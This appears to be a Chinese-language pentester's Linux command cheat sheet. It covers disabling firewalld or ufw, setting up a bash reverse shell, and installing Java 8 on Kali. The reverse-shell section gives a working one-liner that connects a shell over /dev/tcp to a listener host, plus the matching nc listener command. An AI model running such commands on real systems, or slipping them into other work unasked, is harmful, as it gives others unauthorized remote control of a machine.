 # Linux-speed

* firewalld or ufw
* bash反弹shell
* Kali下更换Java8
* 代理设置总结
* Git
* Docker
* zsh
* searchsploit
* Apache
* SSH
* ps
* redis
* Go
* f8x
* curl
* rz文件传输
* find
* nuclei
* 查看文件

### firewalld

```bash
# ubuntu
systemctl status firewalld # 查看防火墙状态
systemctl stop firewalld # 关闭防火墙

# kali
systemctl status ufw # 查看防火墙状态
systemctl stop ufw # 关闭防火墙
```

### bash反弹shell

```bash
bash -c 'exec bash -i &>/dev/tcp/192.168.188.131/6789 <&1'

nc.exe -lvnp 6789
```

### Kali下更换Java8

下载地址：https://www.oracle.com/java/technologies/javase-jdk8-downloads.html

```bash
tar zxvf jdk-8u251-linux-x64.tar.gz
mv /usr/local/java/jdk1.8.0_251/ /opt/
gedit ~/.bashrc # 添加以下四行

# install JAVA JDK
export JAVA_HOME=/opt/jdk1.8.0_251
export CLASSPATH=.:${JAVA_HOME}/lib
export PATH=${JAVA_HOME}/bin:$PATH

source ~/.bashrc
java -version
```
